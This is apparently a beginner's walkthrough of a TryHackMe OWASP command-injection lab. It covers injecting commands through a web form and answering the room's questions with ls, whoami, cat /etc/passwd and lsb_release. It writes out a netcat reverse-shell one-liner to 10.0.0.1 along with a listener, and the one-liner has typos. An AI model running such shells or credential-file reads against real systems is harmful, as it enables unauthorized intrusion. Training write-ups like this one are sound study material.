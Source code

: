 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)

#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 
![error](imgs/eroor.PNG)
but if i enter "root" the page will print a message with success
[suess](/imgs/success.PNG)
so now i will try yo inject it with a username and  command "root;ls"
[test1](/imgs/test1.PNG)
the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 
[#1i](/imgs/#1.PNG)
the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 

 to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
 refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 

maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 
[#1i](/imgs/#1.PNG)
### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

[#2i](/imgs/#2.PNG)
will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

[#3i](/imgs/#3.PNG)
the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

[#4i](/imgs/#2.PNG)
### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 

[#5.1](/imgs/#5.1.PNG)
but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

[#5.2](/imgs/#5.2.PNG)
### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 

in the end of the file the mention a type of drink 
[#6i](./imgs/#6.PNG)

thanks 


